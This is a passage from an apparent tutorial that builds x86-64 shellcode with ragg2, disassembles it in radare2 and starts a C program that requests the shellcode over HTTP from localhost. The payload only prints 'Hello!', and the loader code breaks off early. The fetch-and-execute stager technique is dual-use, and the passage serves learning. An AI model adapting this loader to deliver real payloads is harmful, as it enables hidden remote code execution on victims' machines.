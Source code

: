 We can get those opcodes by using *ragg2* and then dump them into an hex file:

```
:~/C$ 
:~/C$ ragg2-cc  -x w.c
eb0848656c6c6f210a00bf01000000488d35ecffffffba07000000b8010000000f0531ffb83c0000000f0531c0c3
```
So now we can simply copy and paste this and use hexedit to create a new file and hex-paste it, then we'll have our bin sc file ready to be delivered by using our favorite http server (or whatever else)

The dump will look like this inside r2:
```
[0x00000000]> pd 50
            ;-- rflags:
┌ 38: fcn.00000000 ();
│       ┌─< 0x00000000      eb00           jmp 2
│       │   ; CODE XREF from fcn.00000000 @ 
│       └─> 0x00000002      488d351d0000.  lea rsi, [0x00000026]       ; "Hello!\n" ; 38
│           0x00000009      bf01000000     mov edi, 1
│           0x0000000e      ba07000000     mov edx, 7
│           0x00000013      b801000000     mov eax, 1
│           0x00000018      0f05           syscall
│           0x0000001a      31ff           xor edi, edi
│           0x0000001c      b83c000000     mov eax, 0x3c               ; '<' ; 60
│           0x00000021      0f05           syscall
│           0x00000023      31c0           xor eax, eax
└           0x00000025      c3             ret
            ; DATA XREF from fcn.00000000 @ 0x2
            0x00000026      48656c         insb byte [rdi], dx
            0x00000029      6c             insb byte [rdi], dx
            0x0000002a      6f             outsd dx, dword [rsi]
            0x0000002b      210a           and dword [rdx], ecx
            0x0000002d      00ff           add bh, bh
```
As you see, in here we are directly dealing with syscalls (see the syscall instruction), also note that we have two of them one for print one for exit and the string is somehow selfcontained within the code.


Let's go for the host programnow, it will look similar as the previous http client we messed with:

```
#include <stdio.h>
#include <stdlib.h>
#include <netdb.h>
#include <netinet/in.h>
#include <string.h>
#include <stdlib.h> 
#include <fcntl.h>
#include <stdlib.h>

#define BSIZE 256
#define KSIZE 11


int main(int argc, char *argv[]) {
   int sockfd, portno, n;
   struct sockaddr_in serv_addr;
   struct hostent *server;
   char key[KSIZE];
   char request[] = "GET /sh HTTP/1.1\r\nUser-Agent: nc/0.0.1\r\nHost: 127.0.0.1\r\nAccept: */*\r\n\r\n";
   char buffer[BSIZE];

   portno = 80;
   sockfd = socket(AF_INET, SOCK_STREAM, 0);
```